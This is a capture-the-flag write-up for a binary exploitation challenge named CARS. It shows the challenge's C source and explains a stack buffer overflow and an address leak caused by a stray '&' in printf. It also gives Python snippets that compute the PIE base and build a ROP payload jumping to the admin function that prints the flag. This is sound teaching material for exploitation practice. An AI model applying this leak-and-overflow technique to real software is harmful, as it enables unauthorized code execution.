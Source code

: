 # CARS

How kind, the source code is given.

```c
#include <stdio.h>
#include <stdlib.h>

unsigned long report_number = 0;

void setup()
{
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
}

void file_report()
{
    char input[28];
    printf("Please input your student ID: ");
    fgets(input, 28, stdin);
    printf("Please describe the incident: ");
    fgets(input, 256, stdin);
    printf("The matter has been recorded and will be investigated. Thank you.\n");
}

void admin()
{
    // how did you even get here?
    FILE *fptr = fopen("flag", "r");
    if (fptr == NULL)
    {
        printf("Cannot open flag\n");
        exit(0);
    }
    char c;
    while ((c = fgetc(fptr)) != EOF)
    {
        printf("%c", c);
    }
    fclose(fptr);
}

int main()
{
    setup();
    srand(0xb1adee); // this random seed is sooo drain
    report_number = rand();
    printf("Welcome to the Cyber Affairs Reporting System (CARS)\n");
    printf("Report number: #%lu\n", &report_number);
    file_report();
    return 0;
}
```

Here is the checksec:

![checksec](pictures/checksec.png)

Do note that PIE is enabled, so although there is a win function, we can't just jump there.

The vulnerability is pretty obvious, right here:

```c
fgets(input, 256, stdin);
```

`input` is only 28 characters long, so this is an obvious buffer overflow.

But how do we leak PIE base?

Lets look at the main function.

```c
srand(0xb1adee); // this random seed is sooo drain
```

This lines sets the seed for Libc's `rand()` funciton. Since the seed is constant, this means that the number that rand generates should always be the same. Let's check.

![number](pictures/number.png)

That is so goofy??! Why is the number differnt? Here is the line that prints the random number.

```c
printf("Report number: #%lu\n", &report_number);
```

The error lies in the extra `&` before `report_number`. This means instead of printing the value of `report_number`, it prints the address of it instead. We can use this to calcualte PIE base.

```py
p.recvuntil(b'Report number: ')
leak = int(p.recvline()[1:]) - 16528
```

Now that we have PIE base, calling the win function is trivial.

```py
# First input is useless
p.sendline(b'a')    
payload = b'a' * 40 + pack(0x000000000000101a + leak) + pack(elf.symbols['admin'] + leak)
p.sendline(payload)
```

Do note that I had to add a `pack(0x000000000000101a + leak)`, which is a `ret` ROP gadget. This is because of the `movaps` issue, which prevents us from getting the flag. You can read more about it [here](https://ropemporium.com/guide.html) under `Common pitfalls`.

Full solution in cars.py